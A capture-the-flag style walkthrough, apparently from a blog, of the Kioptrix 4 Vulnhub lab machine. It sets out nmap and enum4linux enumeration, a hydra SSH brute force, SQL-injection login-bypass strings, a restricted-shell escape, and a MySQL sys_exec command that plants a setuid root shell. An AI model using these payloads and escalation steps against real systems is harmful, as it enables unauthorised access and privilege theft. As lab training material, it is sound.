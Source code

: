 ```yaml
---
published: true
---
```


Vulnhub virtual machine; On the path to OSCP this box offered enumeration of services with enum4linux and credential extraction via SQL-i. The main escalation occurs from within MySQL through manipulating the sys_exec function. This was a well rounded crafted box.


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------

Locate VM on network

    netdiscover -r 192.168.56.0/24

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550784203739_image.png)


# Enumeration
Nmap Scan

    nmap -sV -sC -oA nmap/kio4 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550785864594_image.png)


*Interesting of note, standard SSH port open, Apache web-server on HTTP with PHP/5.2.4, Samba on Netbios leaking a workgroup: WORKGROUP and script results yielding potential doorways into the network.*

Searchsploit
Performing a quick search of vulnerabilies based off information from nmap

    searchsploit php 5.2.4

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786137515_image.png)


*Nothing quite useable.*


    searchsploit samba 3.x

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786279406_image.png)


*few interesting finds for samba*


Investigate the HTTP server
navigate to 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786374890_image.png)


*Interesting login page*

checking source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786427477_image.png)


*Discovered application is using a ‘checklogin.php’ page to validate credentials.*

Perform SQL-injection
entered username: `admin' OR '1=1--`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786576189_image.png)


*Returned wrong username… there might be content filtering occurring.*


Perform enumeration of samba with enum4linux

    enum4linux 192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786818835_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550786867205_image.png)


*Samba version has no public vulnerabilities but we did discover users*

Users: `nobody`,`robert`,`root`,`john`, and `loneferret`

Brute-Force SSH (hydra)
added list of users to a file name ‘users’

    hydra -L users -P /usr/share/wordlists/rockyou.txt -t 4 192.168.56.106 ssh -vv

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787629004_image.png)


*Hydra was not able to break into the front door. Time head back to the HTTP server.*

Noticing that during the web-login it prompted that I was not the correct user with my SQL injection. Lets try to repeat with usernames discovered.

SQL-injection Part deux
Username: `john`
Password: `' or 1=1 --`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787827775_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550787868356_image.png)


*Well that an improvement - logout button*

Username: `robert`
Password: `' or 1=1 --`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788093350_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788105287_image.png)


*Bingo-bango! we have a username and password*

| Username | robert                |
| -------- | --------------------- |
| Password | ADGAdsafdfwt4gadfga== |

*quickly to the SSH.*

# Remote Access/SSH

    ssh robert@192.168.56.106

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788352355_image.png)


Let the enumeration begin

    sudo -l

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788390459_image.png)

    uname -a

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788415595_image.png)

    which python

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788460435_image.png)

    cd /

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788497865_image.png)


*well that escalated quickly…*

Escaping the restricted shell

    echo os.system("/bin/bash")

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788604365_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788673208_image.png)


*Escaped!*

Lets see whats on this web-server

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788771344_image.png)


You know what I want

    cat checklogin.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788811132_image.png)


*We discovered MySql database usernames and passwords. No impressed by this administrator and choices for passwords.*

MySQL server enumeration

    mysql -u root -p

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788935559_image.png)


Investigating

    SHOW DATABASES

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550788987189_image.png)

    use members;
    select * from members;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789094899_image.png)


*Acquired another password for john.*

|  1 | john       | MyNameIsJohn          
|  2 | robert   | ADGAdsafdfwt4gadfga== 

MySQL running as root

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789304054_image.png)


*just the avenue we can use to Priv-Esc*

# Priv-Esc
Using mysql to give us a nice entryway to root


    mysql> use mysql;
    show tables;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789817523_image.png)

    select * from func;

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789853234_image.png)


# Root

    select sys_exec('cp /bin/sh /tmp/shell; chown root /tmp/shell; chgrp root /tmp/shell; chmod u+s /tmp/shell');
    
    mysql> \! /tmp shell

![](https://d2mxuefqeaa7sj.cloudfront.net/s_73CD622E440C59B912073B9EC90B94FA2B5668CB07E5E600D2AAF978D7A3E461_1550789901373_image.png)


Bring me the root!

-exec

**Further Reading/Sources:**
 MySQL Root to System Root with lib_mysqludf_sys for Windows and Linux - [link](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)
